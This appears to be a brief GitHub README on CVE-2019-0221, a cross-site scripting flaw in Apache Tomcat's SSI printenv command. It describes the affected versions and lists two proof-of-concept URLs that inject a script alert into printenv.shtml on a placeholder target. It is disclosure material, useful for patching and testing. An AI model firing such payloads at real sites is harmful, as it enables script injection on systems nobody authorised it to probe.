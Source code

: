 # CVE-2019-0221

Description : 
The SSI printenv command in Apache Tomcat 9.0.0.M1 to 9.0.0.17, 8.5.0 to 8.5.39 and 7.0.0 to 7.0.93 echoes user provided data without escaping and is, therefore, vulnerable to XSS. SSI is disabled by default. The printenv command is intended for debugging and is unlikely to be present in a production website.

POC :
- Targetsite.com/printenv.shtml?%3Cscript%3Ealert(%27xss%27)%3C/script%3E"
- Targetsite.com/ssi/printenv.shtml?%3Cscript%3Ealert(%27xss%27)%3C/script%3E"
